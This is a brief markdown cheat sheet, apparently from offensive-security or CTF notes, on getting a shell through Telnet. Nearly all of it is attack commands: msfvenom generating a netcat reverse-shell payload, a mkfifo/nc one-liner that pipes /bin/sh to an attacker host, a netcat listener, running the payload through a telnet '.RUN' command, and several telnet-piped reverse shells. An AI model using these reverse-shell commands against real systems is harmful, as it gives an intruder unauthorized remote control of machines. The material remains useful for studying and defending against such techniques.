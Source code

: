 # Getting Shell via Telnet
***

## Attacker Machine
```
# use msfvenom to generate raw payload
msfvenom -p cmd/unix/reverse_netcat lhost=attackerIP lport=7777 R
# → mkfifo /tmp/asnc; nc attackerIP 7777 0</tmp/asnc | /bin/sh >/tmp/asnc 2>&1; rm /tmp/asnc

# Setup a netcat listener
nc -lvp 7777
```


## Target Machine
```
# connect via Telnet
telnet [ip] [port]

# Execute
.RUN mkfifo /tmp/asnc; nc attackerIP 7777 0</tmp/asnc | /bin/sh >/tmp/asnc 2>&1; rm /tmp/asnc
# Switch to netcat listener on attacker machine, you should get a shell
```


## Reverse Shell
```
telnet AttackrIP 7777 | /bin/sh | telnet $IP 5555
telnet AttackrIP 7777 | /bin/sh
telnet -6 AttackrIP 7777 | /bin/sh
```
